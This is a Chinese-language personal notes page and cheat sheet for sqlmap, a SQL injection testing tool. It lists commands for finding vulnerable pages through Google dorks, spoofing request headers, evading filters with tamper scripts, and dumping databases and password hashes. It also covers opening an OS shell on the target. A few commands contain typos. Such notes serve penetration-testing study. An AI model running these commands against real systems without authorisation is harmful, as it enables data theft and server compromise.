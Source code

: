 ```yaml
---
title: 18.sqlmap
description: sqlmap注入神器
published: 1
date: 2023-06-09T10:17:14.579Z
tags: web safe, sqlmap
editor: markdown
dateCreated: 2023-04-19T17:45:04.766Z
---
```


<center>Sqlmap</center>



[toc]







## sqlmap

> 开源渗透工具，自动检测和利用sql注入漏洞 [github](https://github.com/sqlmapproject/sqlmap)



### 1. 使用

> 参数: [usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

> target

```shell
sqlmap -h

# url
sqlmpa -u url
# 可以看到payload一些信息了。

# 有提示的
sqlmap --wizard 

# -m 文件   * 所参数
www.target1.com/vuln1.php?q=foobar
www.target2.com/vuln2.asp?id=1
www.target3.com/vuln3/id/1*

# -r 请求测试
POST /vuln.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/4.0
id=1

# -g 谷歌
sqlmap -g "inurl:\".php?id=1\""
```



> request

```shell
# http方法和data  --method=  --data 重要
# 提交post
sqlmap -u "url" --method=post --date="id=1"

# --param-del 分隔符
sqlmap -u "url" --data="query=foobar;id=\
1" --param-del=";" -f --banner --dbs --users

# --cookie= 设置cookie
--cookie=xxxxx

# --user-agent=  请求头：浏览器信息 重要
sqlmap -u "url" --user-agent="浏览器信息"

# --random-agent 随机 浏览器信息 重要
sqlmap -g "inurl:\".php?id=1\"" --random-agent

# --referer 网站的来源 重要
--referer=
# --headers= http头
--headers=
# --proxy= 代理
--proxy=
```



> injection 注入

```shell
# --level 3 等级越高测试越多

```



> techniques 注入技术

```shell
```



> enumeration 枚举

```shell
# --users 列出注入用户
sqlmap -u http://192.168.0.105:8000/login.php?username=admin --users

# --tables 表  
sqlmap -u http://192.168.0.105:8000/login.php?username=admin --tables

# --current-db 当前数据库 
sqlmap -u http://192.168.0.105:8000/login.php?username=admin --current-db

# --passwords 密码 直接获取root密码了
sqlmap -u http://192.168.0.105:8000/login.php?username=admin --passwords

# --schema 系统库 --dump 数据dump出来
sqlmap -u http://192.168.0.105:8000/login.php?username=admin --schema
```



> 常用命令

```shell
# 常用
sqlmap -u url  
sqlmap -u url --tamper randomcase.py # 混淆代码  /usr/share/sqlmap/tamper 其他代码
sqlmap -u url --level 4 

# 权限
sqlmap -u url --privileges 
sqlmap -u url --is-dba #个人权限


# 查看库 表
--dbs/--current-db # 数据库
# 查看 某个库的表
sqlmap -u url -D database --table
# 查看表字段
sqlmap -u url -D database -T table --columns
# 内容
sql -u url -D datables -T table -C name --dump

# 查看用户
--user
# 密码
--passwords
# 系统表
--schema
# shell  实际上传木马
--os-shell
```



























